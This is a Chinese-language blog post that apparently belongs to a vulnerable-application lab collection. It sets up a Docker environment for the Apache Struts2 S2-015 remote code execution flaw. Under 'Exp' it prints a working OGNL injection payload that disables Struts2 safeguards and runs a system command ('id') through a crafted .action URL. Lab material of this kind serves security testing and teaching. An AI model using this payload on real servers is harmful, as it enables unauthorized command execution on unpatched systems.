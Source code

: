 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-015)"
date: 2017-06-13 18:43:57 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-015)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-015)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-015)环境'
---
```


<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>

### 漏洞信息

 * [S2-015 公告](http://struts.apache.org/docs/s2-015.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-015
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-015
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
/${ %23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}.action
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-015/s2-015-1.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献
